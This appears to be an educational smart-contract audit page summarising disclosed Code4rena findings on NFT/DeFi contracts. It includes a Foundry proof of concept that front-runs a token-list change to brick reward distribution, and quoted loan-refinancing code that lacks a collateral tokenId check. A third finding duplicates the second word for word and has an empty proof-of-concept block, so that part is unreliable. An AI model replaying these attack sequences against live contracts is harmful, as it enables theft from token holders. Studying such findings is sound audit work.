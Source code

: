 # ETAAcademy-Adudit: 5. NFT

<table>
  <tr>
    <th>title</th>
    <th>tags</th>
  </tr>
  <tr>
    <td>05. NFT</td>
    <td>
      <table>
        <tr>
          <th>audit</th>
          <th>basic</th>
          <th>DeFi</th>
          <td>NFT</td>
        </tr>
      </table>
    </td>
  </tr>
</table>

[Github](https://github.com/ETAAcademy)｜[Twitter](https://twitter.com/ETAAcademy)｜[ETA-Audit](https://github.com/ETAAcademy/ETAAcademy-Audit)

Authors: [Eta](https://twitter.com/pwhattie), looking forward to your joining

## 1.[Medium] Distribution can be bricked, and double claims by a few holders are possible when owner calls LiquidInfrastructureERC20::setDistributableERC20s

### Double claiming and bricking distribution

- Summary: Adding a new token can trigger reverts during distribution due to changes in array lengths, while attackers can front-run distribution, resulting in out-of-bounds reverts. Additionally, holders can exploit front-running to distribute rewards and back-run to claim rewards, leading to double claiming and losses for other holders.

- Impact & Recommendation: Removing tokens can cause a loss of token balance until re-added by the owner. To mitigate these risks, it's essential to validate **`setDistributableERC20s`** to prevent changes before distributions occur.
  <br> 🐬: [Source](https://code4rena.com/reports/2024-02-althea-liquid-infrastructure#m-03--distribution-can-be-bricked-and-double-claims-by-a-few-holders-are-possible-when-owner-calls-liquidinfrastructureerc20setdistributableerc20s) & [Report](https://code4rena.com/reports/2024-02-althea-liquid-infrastructure)

  <details><summary>POC</summary>

  ```solidity
    // SPDX-License-Identifier: UNLICENSED
    pragma solidity 0.8.12;
    import {Test, console2} from "forge-std/Test.sol";
    import {LiquidInfrastructureERC20} from "../contracts/LiquidInfrastructureERC20.sol";
    import {LiquidInfrastructureNFT} from "../contracts/LiquidInfrastructureNFT.sol";
    import "@openzeppelin/contracts/token/ERC20/ERC20.sol";
    contract AltheaTest is Test {
        function setUp() public {}
        function test_POC() public {
            // setup
            LiquidInfrastructureNFT nft = new LiquidInfrastructureNFT("LP");
            address[] memory newErc20s = new address[](1);
            uint256[] memory newAmounts = new uint[](1);

            ERC20 DAI = new ERC20("DAI", "DAI");
            ERC20 USDC = new ERC20("USDC", "USDC");
            string memory _name = "LP";
            string memory _symbol = "LP";
            uint256 _minDistributionPeriod = 5;
            address[] memory _managedNFTs = new address[](1);
            address[] memory _approvedHolders = new address[](2);
            address[] memory _distributableErc20s = new address[](1);
            _managedNFTs[0] = address(nft);
            _approvedHolders[0] = address(1);
            _approvedHolders[1] = address(2);
            _distributableErc20s[0] = address(DAI);
            newErc20s[0] = address(DAI);
            nft.setThresholds(newErc20s, newAmounts);
            LiquidInfrastructureERC20 erc = new  LiquidInfrastructureERC20(
                _name, _symbol, _managedNFTs, _approvedHolders, _minDistributionPeriod, _distributableErc20s);
            erc.mint(address(1), 100e18);
            erc.mint(address(2), 100e18);
            // issue ==  change in desirable erc20s
            _distributableErc20s = new address[](2);
            _distributableErc20s[0] = address(DAI);
            _distributableErc20s[1] = address(USDC);
            newAmounts = new uint[](2);
            newErc20s = new address[](2);
            newErc20s[0] = address(DAI);
            newErc20s[1] = address(USDC);
            nft.setThresholds(newErc20s, newAmounts);
            deal(address(DAI), address(erc), 1000e18);
            deal(address(USDC), address(erc), 1000e18);
            vm.roll(block.number + 100);
            // frontrun tx
            erc.distribute(1);
            // victim tx
            erc.setDistributableERC20s(_distributableErc20s);
            // backrun tx
            vm.roll(block.number + _minDistributionPeriod);
            vm.expectRevert(); // Index out of bounds
            erc.distribute(1);
        }
    }

  ```

  </details>

## 2.[High] Function refinanceFromLoanExecutionData() does not check executionData.tokenId == loan.nftCollateralTokenId

### Check tokenId

- The `refinanceFromLoanExecutionData()` function in the contract allows borrowers to refinance their loans using new offers without transferring the NFT collateral out of the protocol. However, this function does not check if the `executionData.tokenId` matches the `loan.nftCollateralTokenId`, potentially leading to a situation where the new loan has a collateral NFT that does not match what the lender requested in their offers.

- Impact & Recommendation: Add a check to ensure `executionData.tokenId` is equal to `loan.nftCollateralTokenId`.
  <br> 🐬: [Source](<https://code4rena.com/reports/2024-04-gondi#h-04-Function-refinanceFromLoanExecutionData()-does-not-check-executionData.tokenId-==-loan.nftCollateralTokenId>) & [Report](https://code4rena.com/reports/2024-04-gondi)

<details><summary>POC</summary>

```solidity

  function _processOffersFromExecutionData(
    address _borrower,
    address _principalReceiver,
    address _principalAddress,
    address _nftCollateralAddress,
    uint256 _tokenId,
    uint256 _duration,
    OfferExecution[] calldata _offerExecution
) private returns (uint256, uint256[] memory, Loan memory, uint256) {
  ...
  _validateOfferExecution(
      thisOfferExecution,
      _tokenId,
      offer.lender,
      offer.lender,
      thisOfferExecution.lenderOfferSignature,
      protocolFee.fraction,
      totalAmount
  );
  ...
}

function _checkValidators(LoanOffer calldata _loanOffer, uint256 _tokenId) private {
    uint256 offerTokenId = _loanOffer.nftCollateralTokenId;
    if (_loanOffer.nftCollateralTokenId != 0) {
        if (offerTokenId != _tokenId) {
            revert InvalidCollateralIdError();
        }
    } else {
        uint256 totalValidators = _loanOffer.validators.length;
        if (totalValidators == 0 && _tokenId != 0) {
            revert InvalidCollateralIdError();
        } else if ((totalValidators == 1) && (_loanOffer.validators[0].validator == address(0))) {
            return;
        }
        for (uint256 i = 0; i < totalValidators;) {
            IBaseLoan.OfferValidator memory thisValidator = _loanOffer.validators[i];
            IOfferValidator(thisValidator.validator).validateOffer(_loanOffer, _tokenId, thisValidator.arguments);
            unchecked {
                ++i;
            }
        }
    }
}

```

</details>

## 3.[High] Function refinanceFromLoanExecutionData() does not check executionData.tokenId == loan.nftCollateralTokenId

### Check tokenId

- The `refinanceFromLoanExecutionData()` function in the contract allows borrowers to refinance their loans using new offers without transferring the NFT collateral out of the protocol. However, this function does not check if the `executionData.tokenId` matches the `loan.nftCollateralTokenId`, potentially leading to a situation where the new loan has a collateral NFT that does not match what the lender requested in their offers.

- Impact & Recommendation: Add a check to ensure `executionData.tokenId` is equal to `loan.nftCollateralTokenId`.
  <br> 🐬: [Source](<https://code4rena.com/reports/2024-04-gondi#h-04-Function-refinanceFromLoanExecutionData()-does-not-check-executionData.tokenId-==-loan.nftCollateralTokenId>) & [Report](https://code4rena.com/reports/2024-04-gondi)

<details><summary>POC</summary>

```solidity

```

</details>
